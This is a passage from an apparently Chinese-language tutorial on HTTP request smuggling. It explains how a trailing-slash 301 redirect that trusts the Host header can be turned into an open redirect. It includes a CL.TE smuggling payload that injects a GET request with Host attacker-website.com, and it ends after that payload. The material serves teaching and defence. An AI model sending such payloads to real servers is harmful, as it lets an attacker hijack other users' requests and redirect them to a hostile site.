[![](assets/1698897445-fdfe2f44aaf9c9560c24cef93ac97378.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191125001149.png)

### Turn An On-Site Redirect Into An Open Redirect

这种攻击场景是在目标在使用 30x 跳转的时候，使用了 Host 头进行跳转，例如在 Apache & IIS 服务器上，一个uri 最后不带 / 的请求会被 30x 导向带 / 的地址，例如发送以下请求：

```plain
GET /home HTTP/1.1
Host: normal-website.com
```

我们会得到 Response :

```plain
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

看起来没什么危害，但是如果我们配合 HTTP Smuggling 就会有问题了，例如：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
